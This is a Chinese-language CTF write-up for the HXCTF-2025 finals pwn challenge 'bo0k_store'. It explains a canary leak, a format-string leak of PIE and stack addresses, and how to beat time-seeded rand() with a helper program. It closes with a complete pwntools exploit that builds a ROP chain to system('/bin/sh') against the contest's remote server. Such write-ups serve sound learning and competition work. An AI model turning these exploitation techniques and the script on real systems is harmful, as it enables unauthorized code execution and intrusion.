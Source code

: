 ```yaml
---
title: HXCTF-2025-决赛彩蛋
tags:
    - 随机时间
    - pwn
categories:
    - 比赛记录
cover: /img/治不开心药.png
---
```

# bo0k_store

## ida分析
**先用checksec 看了一下保护机制--全开**

### mian函数
![image-20250525114939255](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250525114939255.png)
1.可以看到，会循环调用menu，进行选择进入不同的book_store.
2.当v3=1668508013时，是另一题的彩蛋，不用管他。
3.按照1 2 3 的顺序依次查看各个选项的内容。

### 选项1--b0ok_store
![image-20250525115233521](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250525115233521.png)
1.两次输入0x19字节。为什么呢？熟悉的同学可能会想到，第一次覆盖canary高字节，然后再改回去。所以这个地方是留个我们泄露canary的。应该是的
2.同时注意到这个b0ok_times,它的初始值为1，所以只有一次机会利用这个选项。

### 选项2--b00k_store
![image-20250525115622638](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250525115622638.png)
1.熟悉的格式化字符串漏洞，8字节的大小还是太长了，可以泄露很多东西。
2.具体怎么使用还是需要动调看栈上有什么数据可以泄露。
3.这题目是开启了所有保护机制，所以极有可能是用来泄露pie 和 stack 的。

### 选项3--bo0k_store
![image-20250525120159544](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250525120159544.png)
1.本题的核心重点，来了。首先可以看到这里的read。老朋友了，0x50的读入，有0x28的空间留给我们去rop，应该是利用这里泄露libc再返回执行system。
2.但是这里有一个随机数，我们需要正确的输入随机数，才能顺利的继续执行。那么我们要如何绕过这个可恶的随机数呢？

## rand 伪随机数
### 方法1--ctypes
[CTF中的PWN——srand()/rand()漏洞（栈溢出）_ctf rand-CSDN博客](https://blog.csdn.net/weixin_39194641/article/details/103089862)
[随机数利用](https://n0we11.github.io/2023/10/16/PWN中的随机数漏洞/)

1.在这两篇博客当中说的很简单，就是rand()是基于时间戳生成的随机数，所以只要我们用同样的函数，同样的参数，同样的时间，就能得到同样的随机数。
2.所以我们使用ctypes库，调用c的链接库和函数得出应该结果，再把结果输入给本题的程序就行。
3.这种方法，比较看运行的速度? 如果有延迟导致的不同时间，就要尝试几次。

### 方法2--奇技淫巧

[奇思妙想（破解随机数） | 未来大pwn子的blog](https://heshi906.github.io/2023/09/23/奇思妙想（破解随机数）/index.html)
1.这篇博客的方法甚得我心。就是我直接自己也写一个程序，生成10s后的随机数，然后拿这个结果，去输入。后续重复运行题目程序，去撞这个时间。
2.在我的解法中就是利用了这个，与方法1比，这个比较吃手法，因为按的太快，就卡不上10s。按得太慢也卡不上10s 。但是实际操作感觉容错还是挺高的，基本上我每一次都能通，而且远程也没问题。

## gdb 分析
### 找偏移和泄露
![image-20250525122212160](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250525122212160.png)
1.选项1是刚好覆盖到canary，没什么好说的，经典手法了。

![image-20250525122423039](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250525122423039.png)
1.这里可以泄露栈基址和pie。如果有其他条件配合的话，还可以有更美妙的利用

## 利用思路
1.首先在选项1中泄露canary，再从选项2中拿到pie和stack。这样就可以在选项3中，泄露libc。然后把返回地址设置成通过随机数检验的read的地址，直接读入，就不用第二次输入随机数了。
2.所以，第一次在选项3中的输入需要注意rbp的值不能随意覆盖，必须得是合法的地址。拿到pie之后我们可以把rbp写成bss段上的地址。这样下一次的输入，就会在bss段上。最后leave ret时，会跳转过来继续执行。当然也可以写stack上的某个地址。

## exp
```python
from pwn import *
from ctypes import *
context.log_level='debug'
mode=1
url='43.139.51.42'
port=9999
libc=ELF("./libc.so.6")
#exp=cdll.LoadLibraary("./libc.so.6")
exe=process("./rand")
elf=ELF("./pwn")
# 提前10s 拿到随机数 注意这里结尾有换行符
rand=exe.recvline()[5:]
offset=0x18

def choice(op,io):
	io.recvuntil("You choice: \n")
	io.sendline(str(op))

def leak_stack_pie(io):
	#leak-stack & canary
	choice(2,io)
	payload=b'%9$p%8$p'.ljust(8,b"\x41")
	io.sendafter("What b00k do you want??\n",payload)
	#gdb.attach(io)
	base=int(io.recv(14),16)-0x1989-196
	stack=int(io.recv(14),16)
	print(hex(base))
	print(hex(stack))
	log.success("base-{}".format(hex(base)))
	return base,stack
	
def leak_canary(io):
	choice(1,io)
	payload=b'a'*0x18+b'b'
	io.sendafter("What b0ok do you want??\n",payload)
	io.recvuntil("ab")
	canary=u64(io.recv(7).rjust(8,b"\x00"))
	print(hex(canary))
	io.sendafter("Confirm again\n",b'\x00'*0x19)
	return canary
	
	
def pwn(mode):
	if mode==0 :
		io=process("./pwn")
	else:
		io=remote(url,port)
	
	canary=leak_canary(io)
	base,stack=leak_stack_pie(io)
	# got&plt
	puts_got=elf.got["puts"]+base
	puts_plt=elf.plt["puts"]+base
	# gadget
	pop_rdi=0x13F6+base
	ret=0x13F7+base
	read=0x1878+base
	# leak-libc
	choice(3,io)
	#gdb.attach(io)
	rand
	io.sendafter("Let's get started\n",rand)
	payload=offset*b'a'+p64(canary)
	payload+=p64(elf.bss()+base+0x800)+p64(pop_rdi)
	payload+=p64(puts_got)+p64(puts_plt)+p64(read)
	#io.recvuntil("OK! You are right!!!\n")
	#gdb.attach(io,"b *bo0k_store")
	io.sendafter("What bo0k do you want??\n",payload)
	io.recvuntil("This book is for you\n")
	puts=u64(io.recv(6).ljust(8,b'\x00'))
	print(hex(puts))
	libcbase=puts-libc.sym["puts"]
	#log.success("libc-{}".format(hex(libc)))
	system=libcbase+libc.sym["system"]
	bin_sh=libcbase+0x1d8678
	#rop 
	payload=0x18*b'a'+p64(canary)+p64(canary)+p64(pop_rdi)
	payload+=p64(bin_sh)+p64(ret)+p64(system)
	
	io.send(payload)
	io.interactive()

for i in range(12):
	try:
		pwn(mode)
	except:
		print("again!")
	
```
## rand 源码
**gcc 编译之后才能运行哦**
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(){
	srand(time(0)+10);
	int random=rand()%1131796;
	printf("rand:%d\n",random);
}
```